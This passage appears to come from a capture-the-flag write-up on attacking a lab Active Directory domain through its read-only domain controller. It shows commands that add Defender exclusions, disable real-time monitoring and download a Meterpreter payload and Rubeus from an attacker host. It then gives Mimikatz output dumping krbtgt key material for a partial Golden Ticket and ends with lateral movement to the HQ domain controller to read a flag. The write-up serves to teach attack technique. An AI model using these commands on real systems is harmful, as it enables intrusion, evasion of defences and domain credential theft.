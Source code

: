 With the shell, we can now perform the same steps to get a Meterpreter session on `FACTRODC`.

```powershell
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
```

### Partial Golden Tickets

We should now have an administrative shell on the `FACTRODC` computer. I definitely recommend reading the aforementioned blog posts on attacking RODCs before continuing, but if you just want to see the solution, you can keep reading.

As mentioned earlier, the `TimeSheetSvc` user does not have its credentials cached on the RODC, so we cannot extract them from LSA. However, we can retrieve the credentials ourselves using the [Kerberos Key List attack](https://www.secureauth.com/blog/the-kerberos-key-list-attack-the-return-of-the-read-only-domain-controllers/). **But**, both Rubeus' `asktgs /keyList` and Impacket's `keylistattack.py` will only extract the NT hash, which we know is useless in this environment. We don't need the credentials themselves however, a TGT is enough, so let's forge a partial Golden Ticket.

The first step is to dump the AES key of the `krbtgt_48` account, as this key can be used to forge partial TGTs. We will shortly disable Windows Defender and use Mimikatz to dump the key:

```powershell
C:\Windows\temp\attacker>powershell -c Set-MpPreference -DisableRealtimeMonitoring $true
C:\Windows\temp\attacker>.\mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt_48" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # lsadump::lsa /inject /name:krbtgt_48
Domain : FACTORIES / S-1-5-21-3201321165-582068547-786307507

RID  : 00000461 (1121)
User : krbtgt_48

 * Primary
    NTLM : 04498d6b5e97ead9cd9246c687b3ef9d
    LM   : 
  Hash NTLM: 04498d6b5e97ead9cd9246c687b3ef9d
    ntlm- 0: 04498d6b5e97ead9cd9246c687b3ef9d
    lm  - 0: 63dce26f40e25a29e63706ebaf569678

 [...]

 * Kerberos-Newer-Keys
    Default Salt : FACTORIES.MAMMAMIA.LOCALkrbtgt_48
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : a600728f59c515ee19f8b8a12206144ffd3f9f9bd75144c28808b95bd12a7f21
      aes128_hmac       (4096) : 7b030bfbf2652b689f037fa8f0b1e9a3
```

[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> whoami
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> hostname
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Users\Amministratore.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/Rubeus.exe -o rubeus.exe
[factws.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\rubeus.exe createnetonly /program:"C:\Windows\Temp\attacker\msf.exe"
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      